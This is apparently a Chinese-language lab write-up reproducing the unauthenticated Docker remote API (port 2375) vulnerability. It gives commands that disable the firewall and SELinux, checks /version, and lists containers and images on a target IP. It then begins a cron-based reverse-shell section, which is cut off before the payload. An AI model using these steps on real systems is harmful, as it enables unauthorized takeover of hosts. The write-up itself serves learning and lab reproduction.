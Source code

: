 ```bash
systemctl daemon-reload
systemctl restart docker
docker version
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666064912272-730bc73f-c4ea-4c60-bd2b-8e36833f7da7.png#averageHue=%23080605&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=223&id=uc6488d42&margin=%5Bobject%20Object%5D&name=image.png&originHeight=334&originWidth=479&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18645&status=error&style=none&taskId=u875f866b-dfb6-49cf-aaeb-b4cf2f4f999&title=&width=319.3333333333333)
检查端口开放
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666064957699-33e76b4f-e510-4926-9a39-ff708122c564.png#averageHue=%23080504&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=207&id=u5c6f1301&margin=%5Bobject%20Object%5D&name=image.png&originHeight=310&originWidth=661&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26083&status=error&style=none&taskId=u187551c5-bb01-4496-be5a-c69c5461648&title=&width=440.6666666666667)
外网访问需要打开防火墙规则
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666065081791-c84fc305-08ab-48fd-814b-47b4c72d539f.png#averageHue=%23fdfcfc&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=300&id=ue6522a44&margin=%5Bobject%20Object%5D&name=image.png&originHeight=450&originWidth=1465&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54592&status=error&style=none&taskId=u944b3701-b1e8-481c-aa60-54e790e7663&title=&width=976.6666666666666)
本地虚拟机需要关闭防火墙
```bash
# 关闭默认自带防火墙：
systemctl stop firewalld && systemctl disable firewalld

# 安装iptables管理工具，并清空规则：
yum -y install iptables-services && systemctl start iptables && systemctl enable iptables && iptables -F && service iptables save

# 第三，关闭selinux
# 下面命令先关闭selinux，然后从selinux的配置文件中设置它为永久关闭。
setenforce 0 && sed -i 's/^SELINUX=.*/SELINUX=disabled/' /etc/selinux/config
```
### 漏洞复现
直接访问目的ip:2375显示{"message":"page not found"}
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666065201117-e6e671c5-e21c-4bc5-b5c4-a43db5e3cb9f.png#averageHue=%23fdfcfc&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=117&id=u010957b3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=176&originWidth=429&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6447&status=error&style=none&taskId=uf6e999e4-8314-4227-b85d-d81f32d20b0&title=&width=286)
在路径中接上/version进行验证:会返回docker的版本信息
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666065262270-cdf1c47c-01c3-4c2d-adab-e817484b0dee.png#averageHue=%23fcfcfb&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=417&id=ud685c046&margin=%5Bobject%20Object%5D&name=image.png&originHeight=626&originWidth=670&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24569&status=error&style=none&taskId=ua8e64745-ec64-4eb0-8f4b-c9a6b953d8f&title=&width=446.6666666666667)
如果能查看到对应的docker信息,则证明漏洞存在,在攻击机开启docker服务
使用docker –H tcp://靶机ip:2375 ps命令查看靶机已启动的容器,也可以查看目标机器的镜像
```bash
# 查看docker服务
docker -H tcp://120.27.21.11:2375 ps
# 查看docker镜像
docker -H tcp://120.27.21.11:2375 images
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666065665051-9b5fbe22-4dfa-48d0-bf9c-25608197f3be.png#averageHue=%23070504&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=84&id=u1984972f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=126&originWidth=627&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8630&status=error&style=none&taskId=u0d69f19c-110d-47d9-ba00-216e612802b&title=&width=418)
#### 攻击方式一  定时任务反弹shell
定时任务反弹shell需要运用到crontab服务,crontab服务写shell的需要先了解它的语法格式:

- * * * * * command #语法格式
- *的含义如下所示
- ![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666072366523-8a35d0ad-232a-4f9f-8175-8f9ebfb3697e.png#averageHue=%23f4f4f4&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=uc5bfb889&margin=%5Bobject%20Object%5D&name=image.png&originHeight=169&originWidth=550&originalType=url&ratio=1&rotation=0&showTitle=false&size=19701&status=error&style=none&taskId=u7b5b189d-6891-4722-bdb2-ebaf9860f7a&title=)
